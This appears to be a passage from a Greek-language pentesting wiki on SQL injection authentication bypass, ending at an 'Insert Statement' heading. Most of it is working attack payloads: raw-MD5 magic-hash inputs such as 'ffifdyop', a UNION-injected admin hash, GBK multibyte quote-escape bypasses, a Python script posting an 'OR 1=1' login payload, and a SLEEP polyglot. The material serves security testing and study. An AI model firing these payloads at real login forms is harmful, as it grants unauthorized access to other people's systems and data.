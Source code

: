 Λίστα για να προσπαθήσετε να παρακάμψετε τη λειτουργία σύνδεσης:

{{#ref}}
../login-bypass/sql-login-bypass.md
{{#endref}}

### Παράκαμψη αυθεντικοποίησης με ακατέργαστο hash
```sql
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```
Αυτή η ερώτηση αναδεικνύει μια ευπάθεια όταν το MD5 χρησιμοποιείται με true για την ακατέργαστη έξοδο σε ελέγχους ταυτοποίησης, καθιστώντας το σύστημα ευάλωτο σε SQL injection. Οι επιτιθέμενοι μπορούν να εκμεταλλευτούν αυτό δημιουργώντας εισόδους που, όταν κατακερματίζονται, παράγουν απροσδόκητα μέρη SQL εντολών, οδηγώντας σε μη εξουσιοδοτημένη πρόσβαση.
```sql
md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```
### Παράκαμψη αυθεντικοποίησης με εισαγόμενο hash
```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```
**Συνιστώμενη λίστα**:

Πρέπει να χρησιμοποιείτε ως όνομα χρήστη κάθε γραμμή της λίστας και ως κωδικό πάντα: _**Pass1234.**_\
&#xNAN;_(Αυτά τα payloads περιλαμβάνονται επίσης στη μεγάλη λίστα που αναφέρθηκε στην αρχή αυτής της ενότητας)_

{% file src="../../images/sqli-hashbypass.txt" %}

### GBK Authentication Bypass

ΕΑΝ το ' είναι διαφευγμένο μπορείτε να χρησιμοποιήσετε %A8%27, και όταν το ' διαφευγεί θα δημιουργηθεί: 0xA80x5c0x27 (_╘'_)
```sql
%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --
```
Python script:
```python
import requests
url = "http://example.com/index.php"
cookies = dict(PHPSESSID='4j37giooed20ibi12f3dqjfbkp3')
datas = {"login": chr(0xbf) + chr(0x27) + "OR 1=1 #", "password":"test"}
r = requests.post(url, data = datas, cookies=cookies, headers={'referrer':url})
print r.text
```
### Πολυγλωσσική ένεση (πολυπλαστική)
```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```
## Insert Statement
